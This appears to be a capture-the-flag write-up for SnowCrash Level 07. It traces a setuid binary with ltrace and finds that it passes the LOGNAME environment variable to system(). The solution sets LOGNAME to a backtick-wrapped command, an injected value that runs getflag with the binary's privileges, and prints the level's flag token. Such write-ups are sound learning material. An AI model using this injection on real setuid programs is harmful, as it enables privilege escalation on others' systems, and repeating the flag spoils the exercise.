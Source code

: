 ## Level 07

## Clues

```
level07@SnowCrash:~$ ls -l
total 12
-rwsr-sr-x 1 flag07 level07 8805 Mar  5  2016 level07
level07@SnowCrash:~$
```

Another executable to trick

```
level07@SnowCrash:~$ ./level07
level07
```

It print "level07", maybe it is printing the current user ?

Lets see what it calls :

```
level07@SnowCrash:~$ ltrace ./level07 
...                                                                                                              = 0
getenv("LOGNAME")   //     BIG MISTAKE                                                                                                                                                       = "`getflag`"
asprintf(0xbffff744, 0x8048688, 0xbfffff67, 0xb7e5ee55, 0xb7fed280)                                                                                                            = 20
system("/bin/echo `getflag` "Check flag.Here is your token : Nope there is no token here for you sorry. Try again :)
...
level07@SnowCrash:~$ 
```



![Snowcrash](./BIG%20MISTAKE%20GIF.gif)
```
getenv("LOGNAME")
```

## Solution

Very easy level, the executable seems to be using the LOGNAME environnement variable to print the current user.


So the solution is pretty easy


```
level07@SnowCrash:~$ export LOGNAME=\`getflag\`
level07@SnowCrash:~$ ./level07 
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

Easy one


## What i learned

More curiosity

More ltrace and strace utility